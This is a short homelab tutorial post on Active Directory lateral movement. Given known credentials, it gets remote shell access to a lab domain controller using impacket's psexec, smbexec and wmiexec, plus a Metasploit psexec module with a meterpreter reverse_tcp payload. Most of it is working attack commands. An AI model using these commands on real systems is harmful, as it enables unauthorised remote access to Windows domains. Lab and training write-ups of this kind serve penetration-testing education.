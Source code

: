 ```yaml
---
title: " Gaining Shell Access  "
layout: post
category: Active-Directory
tags: [AD, Windows-server]
excerpt: " "
---
```


# Gaining Shell Access 
**this done when you get credential (user and pass)**

## Using [impacket](https://github.com/SecureAuthCorp/impacket)
```bash
# psexec.py DC/Username:Password@DC-IP

psexec.py Homelab.local/superman:'Password123!'@192.168.1.2

```
![Desktop View](/assets/img/AD_Lab/1 (75).png){: }

```bash
# smbexec.py DC/Username:Password@DC-IP

smbexec.py Homelab.local/superman:'Password123!'@192.168.1.2

```
![Desktop View](/assets/img/AD_Lab/1 (76).png){: }

```bash
# wmiexec.py DC/Username:Password@DC-IP
wmiexec.py Homelab.local/superman:'Password123!'@192.168.1.2

```
![Desktop View](/assets/img/AD_Lab/1 (77).png){: }

## using Metasploit

```bash
use exploit/windows/smb/psexec  
set rhost #dc-ip
set smbdomain #dc-name
set smbpass  # Userpass
set smbuser  # Usarname
set Lhost  # local-ip
set payload /windows/x64/meterpreter/reverse_tcp   # payload
run # run exploit
```
![Desktop View](/assets/img/AD_Lab/1 (78).png){: }

![Desktop View](/assets/img/AD_Lab/1 (79).png){: }

- now we get shell access 

![Desktop View](/assets/img/AD_Lab/1 (80).png){: }
